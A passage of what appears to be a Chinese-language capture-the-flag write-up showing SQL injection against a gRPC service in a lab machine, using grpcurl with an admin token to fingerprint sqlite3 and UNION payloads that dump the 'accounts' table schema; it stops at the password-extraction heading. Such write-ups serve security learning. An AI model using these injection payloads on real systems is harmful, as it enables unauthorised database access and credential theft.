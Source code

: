 ##### 判断字段数

`-d '{"id":"140 ORDER BY 1--"}'`：无报错。2就报错。其实很明显只有1列就是了。

##### 判断数据库：sqlite3

根据[hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)这里只能判断出不是MySQL。  
不过其实用分号尝试执行多条命令时，可以看到报错信息明确是sqlite3：
```bash
└─$ ./grpcurl -plaintext -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUwMDM0NzN9.R_Z6JXS49px42pQwgGdm5gj9-3-p7n9lA28aLLCVq2o' -d '{"id":"1 or 1=1; select * from sqlite_master"}' 10.10.11.214:50051 SimpleApp/getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'sqlite3.Warning'>: You can only execute one statement at a time.
```

#### 暴库

确认是sqlite3就好办了，谷歌一下cheatsheet开始暴库：
> [PayloadsAllTheThings/SQL Injection/SQLite Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)



##### Extract table name

由于payload有单引号所以用 `-d @` 的方式传递

```bash
./grpcurl -plaintext -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUwMTA4NTh9.n3UwTncslJwqRDFHZb3mzU0bnnaDQKaaDp5mNyMrlOQ' -d @ 10.10.11.214:50051 SimpleApp/getInfo <<EOM 
{"id":"140 union SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'"}
EOM
{
  "message": "accounts"
}
```

##### Extract column name

```bash
└─$ ./grpcurl -plaintext -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ5OTEzMDl9.OQuH_s45wDpBp6YaNlrwkX4p1CgSdQoSHSgaNt8ehzg' -d @ 10.10.11.214:50051 SimpleApp/getInfo <<EOM
{"id":"1 union SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts'"}  
EOM
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```

##### 获取密码
